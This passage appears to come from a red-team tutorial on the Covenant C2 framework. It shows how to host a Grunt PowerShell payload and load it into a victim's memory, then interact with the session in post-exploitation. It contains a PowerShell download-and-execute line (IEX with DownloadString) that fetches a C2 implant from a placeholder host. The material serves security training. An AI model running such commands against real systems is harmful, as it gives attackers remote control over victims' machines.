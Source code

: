 ![CT8](https://user-images.githubusercontent.com/84678370/131235780-0436d3db-50cf-40e4-adf7-cbde019c1e58.png)

> We can also load it into memory as follows.

> By simply downloading the .ps1 from covenant, we can do the following, from the path where the .ps1 is hosted

```
python3 -m http.server 8080
``` 

```powershell
IEX (New-Object System.Net.WebClient).DownloadString('http://ip:port/GruntHTTP.ps1')
``` 

> The problem with this, is that the session will not last long because when the victim turns off the pc and turns it on again, our .ps1 will no longer be hosted in memory, so we will not be able to interact with that session. 

![CT10](https://user-images.githubusercontent.com/84678370/131236009-60413172-c848-4e5f-ab54-394fc30513a5.png)

`note`

> Let it be clear that in this C2 module we are only teaching the `basics` `(how to configure C2, how to launch a session and how to interact with it)`, not the `intermediate-advanced` `(Av evasion, changing parts of C2`). That's why I also want to say, that you in a `red team operation`, you should `enforce` your sessions and not just launch the command in`powershell`, because in this test there is no `threat monitoring` or anything like that, in `real life`, launching that simple command in powershell `(Covenant)` would raise too many `alarms`, so you would be `flagged`.

### __Interact with a session__

> So far we have seen how to deploy covenant, including how to give us a session with a payload in Powershell. Well, now we will see how to interact with that session as part of a Post-Ex.

> For this test, we will simply create a directory in some path of the machine, with the `CreateDirectory` module.

`tasking`

![CT11](https://user-images.githubusercontent.com/84678370/131520577-e283c161-e075-4418-a6e6-317f8e9431fc.png)

![CT13](https://user-images.githubusercontent.com/84678370/131670740-1b611be5-2847-451a-aabd-bcc68fe89fde.png)

![CT12](https://user-images.githubusercontent.com/84678370/131520696-65bf1309-f57a-4513-b28e-517fdcce8cd7.png)

---
